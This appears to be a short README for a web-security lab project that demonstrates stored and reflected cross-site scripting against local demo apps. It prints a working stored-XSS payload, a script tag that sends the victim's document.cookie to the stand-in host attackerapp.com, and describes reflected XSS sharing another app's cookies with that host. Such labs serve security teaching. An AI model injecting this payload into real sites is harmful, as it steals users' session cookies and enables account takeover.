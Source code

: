 # SecuringWebApplications
## 1. Persistent XSS Atack
Application: storedXssAttack1
a. Post a comment to the the url 

      URL:'http://localhost:8080/storedXssAttack1/Comment'

      Method : POST

      Request Body

          comment : <script>window.location='http://attackerapp.com/?cookie='+document.cookie</script>


b. Get the comment from the url
http://localhost:8080/storedXssAttack1/Comment

## 1. Non-Persistent XSS Attack
Applications: datingapp, myCommerce

a. Open the url 'http://localhost:8080/datingapp/' and submit the registration form, you can observe that the cookies of myCommerce application are shared with attackerapp.com.
`     
